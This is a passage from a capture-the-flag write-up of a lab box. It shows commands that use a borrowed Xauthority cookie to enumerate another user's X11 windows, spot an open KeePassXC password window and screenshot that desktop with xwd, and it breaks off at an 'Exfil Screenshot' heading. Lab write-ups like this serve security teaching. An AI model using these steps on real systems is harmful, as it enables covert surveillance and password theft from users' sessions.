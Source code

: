 
There is a ton of data, not much of it of any use, but it shows that the
authentication worked. Same with `xwininfo`:

    
    
    alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xwininfo -root -tree -display :0
    
    xwininfo: Window id: 0x533 (the root window) (has no name)
    
      Root window id: 0x533 (the root window) (has no name)
      Parent window id: 0x0 (none)
         26 children:
         0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
            1 child:
            0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
         0x800023 (has no name): ()  802x575+-1+26  +-1+26
            1 child:
            0x1800006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
               1 child:
               0x18000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
         0x1800008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
    ...[snip]...
    

This one does show a window named “Passwords - KeePassXC”, which is definitely
interesting.

#### Take Screenshot

I can take a screenshot of that desktop using `xwd`:

    
    
    alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/0xdf.xwd
    

The full syntax is from [the HackTricks
page](https://book.hacktricks.xyz/network-services-
pentesting/6000-pentesting-x11#screenshots-capturing), but the options are:

  * `-root` \- select the main root window, not requiring me to select a sub-window with the mouse (which would be impossible with a remote shell)
  * `-screen` \- makes sure the GetImage request goes to the root window
  * `-silent` \- silence the typical bells that come with a screenshot
  * `display :0` \- specifies the window to connect to

The resulting file is X Window Dump image data:

    
    
    alex@squashed:/home/alex$ file /tmp/0xdf.xwd
    /tmp/0xdf.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
    

### Get Root Password

#### Exfil Screenshot

